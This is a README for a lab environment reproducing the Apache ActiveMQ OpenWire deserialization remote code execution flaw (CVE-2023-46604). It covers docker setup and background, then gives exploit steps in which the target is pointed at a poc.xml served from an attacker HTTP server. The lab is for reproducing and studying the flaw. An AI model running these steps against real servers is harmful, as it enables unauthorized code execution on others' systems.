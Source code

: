 # Apache ActiveMQ (Version < 5.18.3) RCE （CVE-2023-46604）

[中文版本(Chinese version)](README.zh-cn.md)

## Environment setup

Enter following commands to build and run the vulnerability environment:

```
docker compose up -d
```

The environment listens to port 61616 and port 8161, of which 61616 is the working port. In this vulnerability exploitation, we only need to use port 61616. When executing the vulnerability verification process, please first access port 8161 to confirm that the service has started successfully.

Visit `http://your-ip:8161/` to see the web page, indicating that the environment has been successfully run.

## Background brief

Apache ActiveMQ has a remote code execution vulnerability. This vulnerability may allow remote attackers with network access privileges to execute arbitrary shell commands by manipulating the serialized class types in the OpenWire protocol, leading to the instantiation of any class on the classpath of the agent.

| Default port | Default Condition                    |
|--------------|--------------------------------------|
| 8161 (web)   | Remote access requires configuration |
| 61616 (tcp)  | Remote access allowed                |

## Exploit

You can quickly start an HTTP server in the folder where the poc.xml file is located using the Python3 http.server module

```shell
python3 -m http.server 6666
```

execute poc.py

```shell
python3 poc.py target port http://ip of http server/poc.xml
```

You can check inside the ActiveMQ container using the following command:

docker exec cve-2023-46604-activemq-1 ls -l /tmp

If you see the output showing that touch /tmp/activeMQ-RCE-success has been executed successfully, then the exploit has worked.

![01.png](01.png)